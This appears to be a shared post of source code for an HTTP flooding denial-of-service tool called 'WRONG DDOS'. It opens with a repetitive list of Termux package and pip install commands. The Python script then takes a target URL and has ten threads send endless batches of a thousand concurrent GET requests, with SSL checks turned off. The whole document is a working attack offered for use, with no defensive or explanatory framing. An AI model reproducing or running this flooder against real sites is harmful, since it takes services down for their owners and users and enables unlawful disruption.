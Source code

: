 pkg update && pkg upgrade
pkg install python
pip install requests
pip install requests
pip install aiohttp
pip install asyncio
pip install aiohttp
pkg install pip
pkg install python
pip install asyncio
pip install aiohttp

import aiohttp
import asyncio
import threading
import time

# Settings
REQUESTS_PER_BATCH = 1000
INTERVAL_BETWEEN_REQUESTS = 0.1
ACTIVE_DURATION = 60  # seconds
PAUSE_DURATION = 1    # seconds

print("WELCOME TO WRONG DDOS")

async def flood(session, url):
    try:
        async with session.get(url) as response:
            await response.read()
    except:
        pass

async def run_batch(url):
    async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(ssl=False)) as session:
        tasks = [flood(session, url) for _ in range(REQUESTS_PER_BATCH)]
        await asyncio.gather(*tasks)

def attack_loop(target):
    while True:
        start_time = time.time()
        while time.time() - start_time < ACTIVE_DURATION:
            asyncio.run(run_batch(target))
            print(f"DDOS Attacking {target}...")
            time.sleep(INTERVAL_BETWEEN_REQUESTS)
        print("Pausing for 1 second...")
        time.sleep(PAUSE_DURATION)

if __name__ == "__main__":
    target = input("Input target website (include http/https): ")
    for _ in range(10):  # Spawn multiple attack threads
        threading.Thread(target=attack_loop, args=(target,), daemon=True).start()
    while True:
        time.sleep(2)

